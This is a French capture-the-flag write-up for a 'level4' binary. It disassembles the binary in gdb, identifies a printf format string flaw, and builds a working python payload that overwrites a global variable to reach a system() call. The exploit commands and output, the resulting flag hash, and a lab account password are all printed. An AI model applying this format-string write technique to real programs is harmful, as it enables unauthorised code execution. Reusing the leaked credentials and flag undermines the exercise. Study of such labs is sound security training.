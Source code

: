 On se connecte sur le level4, ou se trouve un **binaire** <code>level4</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level4 -q
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) > disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) > disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf** comme pour **level3**

On commence par chercher l'**Offset**:
<pre><code> > python -c 'print "BBBB" + "|%08x" * 12' | ./level4
BBBB|b7ff26b0|bffff794|b7fd0ff4|00000000|00000000|bffff758|0804848d|bffff550|00000200|b7fd1ac0|b7ff37d0|42424242
</code></pre>
> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:
<pre><code>> objdump -t level4 | grep m
level3:     file format elf32-i386
...
08049810 g     O .bss   00000004              m
...</code></pre>

```gdb
> python -c 'print "\x10\x98\x04\x08" + "%12$08n"' > /tmp/payload2
> gdb -q level4
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) > b *0x08048492
Breakpoint 1 at 0x8048492
(gdb) > run < /tmp/payload2
Starting program: /home/user/level4/level4 < /tmp/payload2


Breakpoint 1, 0x08048492 in n ()
(gdb) > x/x 0x8049810
0x8049810 <m>:  0x00000004
```
On sait que l'on cherche 16930116 (0x1025544), donc il nous manque 16930112

<pre><code>> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$08n"' | ./level4
...
                                   -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
</code></pre>

For download :
<pre><code>scp -P4242 level4@IP:level4 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
